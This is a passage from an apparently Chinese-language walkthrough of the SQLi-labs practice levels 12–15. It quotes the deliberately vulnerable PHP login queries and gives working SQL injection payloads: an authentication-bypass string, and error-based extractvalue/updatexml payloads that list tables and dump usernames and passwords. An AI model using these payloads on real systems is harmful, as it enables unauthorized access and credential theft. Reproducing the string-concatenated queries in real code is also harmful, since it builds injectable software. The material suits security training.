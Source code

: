 ```php
        }
}
```

闭合`")`

```
")+-extractvalue(1,concat(0x5c,(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+3,1)))-("
```

## less-13 报错注入

```php
@$sql="SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

闭合`')`

万能密码`1') or ('1')=('1`

报错注入

```
')+-(updatexml(1,concat(0x7e,(select+username+from+users+limit+0,1)),0x7e),1)-('
') and (updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1))#
```

## less-14 报错注入

```php
$uname='"'.$uname.'"';
	$passwd='"'.$passwd.'"'; 
	@$sql="SELECT username, password FROM users WHERE username=$uname and password=$passwd LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);
```

闭合`"`,和上面的一样

## less-15 时间盲注

时间盲注

```php+HTML
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
        if($row)
        {
                echo '<font size="3" color="#0000ff">';
                echo "<br>";
        }
        else  
        {
                echo '<font color= "#0000ff" font size="3">';
                //print_r(mysql_error());
        }
```
